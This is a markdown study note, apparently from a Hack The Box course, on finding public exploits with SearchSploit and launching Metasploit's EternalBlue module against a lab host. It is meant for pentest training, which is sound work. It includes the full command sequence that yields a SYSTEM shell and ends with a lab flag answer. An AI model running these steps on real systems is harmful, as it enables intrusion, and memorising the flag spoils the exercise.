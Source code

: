 ### Identifying Public Exploits
- **Objective**: Locate public exploits for services or applications discovered during enumeration (e.g., SSH, FTP, web apps).
- **Search Methods**:
    - Use search engines with queries like `application_name exploit`.
    - Leverage exploit databases:
        - **SearchSploit** (part of Exploit DB).
        - Online resources: Exploit DB, Rapid7 DB, Vulnerability Lab.



### **Using SearchSploit**
1. **Install SearchSploit**:
    ```bash
    sudo apt install exploitdb -y
    ```
2. **Search for Exploits**:
    ```bash
    searchsploit <application_name> <version>
    ```
	- Example:
    ```bash
    searchsploit openssh 7.2
    ```
	- **Output**:
	    - Lists matching exploits, their paths, and descriptions.



### **Metasploit Framework (MSF)**
- A powerful tool for pentesters, featuring:
    - Built-in exploits.
    - Recon scripts for host enumeration.
    - Vulnerability verification.
    - Post-exploitation tools (e.g., **Meterpreter**).
- #### **Basic Usage**
1. **Launch MSF Console**:
    ```bash
    msfconsole
    ```
    - **Key Commands**:
	    - `search exploit <vulnerability>`: Search exploits (e.g., EternalBlue).
	    - `use <exploit_path>`: Load a specific exploit module.
	    - `show options`: Display required/optional settings for the exploit.
	    - `set <option> <value>`: Configure settings (e.g., target IP, LHOST).
	    - `check`: Verify if the target is vulnerable.
	    - `exploit` or `run`: Launch the exploit.
2. **Example**:
    - Searching for EternalBlue:
        ```bash
        msf6 > search exploit eternalblue
        ```
	    - Matching module: `exploit/windows/smb/ms17_010_psexec`.
    - Use and configure the exploit:
        ```bash
        msf6 > use exploit/windows/smb/ms17_010_psexec
        msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
        msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
        msf6 exploit(windows/smb/ms17_010_psexec) > check
        msf6 exploit(windows/smb/ms17_010_psexec) > exploit
        ```
    - **Results**: Gain shell access (e.g., `Meterpreter`) and escalate privileges.
- #### **Sample Output**:
	- Target vulnerable:
    ```plaintext
    [+] 10.10.10.40 - The target is vulnerable.
    ```
	- Exploitation successful:
    ```plaintext
    Server username: NT AUTHORITY\SYSTEM
    ```
    


### **Best Practices**
- Don't solely rely on Metasploit; understand:
    - How exploits work.
    - Why they might fail.
    - When to pivot to manual or alternative methods.
- Practice on platforms like **Hack The Box**:
    - Suggested boxes: Granny, Grandpa, Jerry, Blue, Lame, Optimum, Legacy, Devel.



### Example Commands for Reference
```bash
# SearchSploit example
searchsploit <application_name> <version>

# Launch Metasploit
msfconsole

# Search for exploits in Metasploit
search exploit <vulnerability_name>

# Configure and exploit a target in Metasploit
use <exploit_path>
set RHOSTS <target_IP>
set LHOST <attacker_IP>
check
exploit
```



### Questions
- Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
	- HTB{my_f1r57_h4ck}